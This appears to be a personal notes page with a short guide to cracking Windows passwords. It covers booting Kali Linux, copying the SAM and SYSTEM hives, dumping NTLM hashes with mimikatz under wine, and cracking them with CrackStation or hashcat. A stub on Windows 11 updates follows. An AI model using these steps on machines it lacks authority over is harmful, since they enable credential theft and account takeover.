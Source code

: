 # Windows

## Cracking Windows Passwords

1. Boot into [Kali Linux](https://www.kali.org/) live CD
1. Connect to WiFi
1. Enable SSH:

  ```bash
  sudo systemctl enable ssh
  sudo systemctl start ssh
  ```

1. Set password for kali user:

  ```bash
  sudo passwd kali
  ```

1. SSH to the machine from local workstation
1. Mount the Windows filesystem

  ```bash
  sudo mkdir -p /mnt/windows
  sudo mount $(sudo fdisk -l | grep "Microsoft basic data" | awk '{print $1}') /mnt/windows
  ```

1. Extract SYSTEM and SAM files

  ```bash
  cp /mnt/windows/Windows/System32/config/SAM /tmp/SAM
  cp /mnt/windows/Windows/System32/config/SYSTEM /tmp/SYSTEM
  cd /tmp
  ```

1. Install `wine`

  ```bash
  sudo timedatectl set-timezone America/Detroit
  sudo timedatectl set-ntp on
  sudo apt update
  sudo apt install -y wine
  ```

1. Run `mimikatz`

  ```bash
  wine /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
  lsadump::sam /system:/tmp/SYSTEM /sam:/tmp/SAM
  ```

1. There should be a line that says `User : ${USER}`, with a line below it saying `Hash NTLM:`. Grab this hash and use rainbow tables from [Crack Station](https://crackstation.net/) or hashcat, john the ripper, etc. to crack the hash.

Ref: <https://security.stackexchange.com/questions/157922/how-are-windows-10-hashes-stored-if-the-account-is-setup-using-a-microsoft-accou/158174#158174>

## Updating Windows 11 on Incompatible Hardware

Ref: <https://www.youtube.com/watch?v=mC657pIDyOc&list=LL&index=1>
